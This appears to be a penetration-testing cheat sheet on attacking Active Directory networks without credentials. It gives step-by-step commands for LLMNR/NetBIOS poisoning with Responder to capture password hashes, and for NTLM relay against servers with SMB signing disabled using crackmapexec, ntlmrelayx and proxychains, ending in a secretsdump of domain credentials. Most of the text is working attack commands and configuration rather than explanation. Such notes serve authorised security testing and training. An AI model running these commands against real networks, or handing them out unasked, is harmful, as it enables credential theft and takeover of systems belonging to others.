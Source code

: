 ```yaml
---
title: AD Attacks
category: Active Directory
order: 99
---
```


# Without Credentials

## LLMNR / NetBIOS Poisoning

We can grab some hashed credentials if LLMNR protocol is enabled.

```
sudo responder -I eth0 -Fw
```

After some time we can get all the hashes.

```
cd /usr/share/responder
sudo python DumpHash.py
```

## NTLM Relay (SMB signing disabled)

Some tiems some server are misconfigured and have the smb signing disabled, so we can perform more attacks with responder.

### Configuration

* /etc/proxychains4.conf

```
socks4  127.0.0.1       1080
```

* /usr/share/responder/Responder.conf

```
[Responder Core]

; Servers to start
SMB = Off
HTTP = On
```

### Perform the attack

We need to get a list of the servers with the SMB sigining disabled.

```
crackmapexec smb --gen-relay-list vulnerable_servers.txt 10.10.10.0/24
```

Execute the attack with Responder and Impacket.

```
impacket-ntlmrelayx.py -tf ./vulnerable_servers.txt -socks -smb2support
sudo responder -I eth0
```

We can list the current sessions with the next command.

```
ntlmrelayx> socks
```

When a session with administrative privileges is found we can use secretsdump or other tool with proxychains to use the session captured.

```
proxychains impacket-secretdump DOMAIN/admin@IP
```
